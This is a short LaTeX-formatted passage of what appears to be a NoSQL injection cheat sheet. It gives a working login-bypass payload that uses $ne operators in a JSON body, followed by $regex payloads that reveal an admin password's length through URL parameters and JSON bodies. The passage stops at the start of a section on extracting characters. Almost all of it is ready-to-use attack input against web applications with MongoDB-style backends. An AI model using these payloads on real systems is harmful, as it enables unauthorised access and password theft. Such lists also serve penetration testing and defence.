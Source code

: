 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}
POST /login HTTP/1.1
Content-Type: application/json

{"username": {"$ne": "invalid"}, "password": {"$ne": "invalid"}}
\end{lstlisting}

This query returns all users where both username and password are not equal to "invalid", logging you in as the first user in the collection.

\section{Extract Length Information}

\subsection{Using \$regex for Length Detection}

\subsubsection{URL Parameter}

\begin{lstlisting}
# Test if password length is 1
user=admin&password[$regex]=.{1}

# Test if password length is 3
user=admin&password[$regex]=.{3}
\end{lstlisting}

\subsubsection{JSON Body}

\begin{lstlisting}
{"username": "admin", "password": {"$regex": "^.{8}$"}}
{"username": "admin", "password": {"$regex": "^.{0,20}$"}}
\end{lstlisting}


\section{Extract Data Information}

\subsection{Using \$regex for Character Extraction}
\end{document}

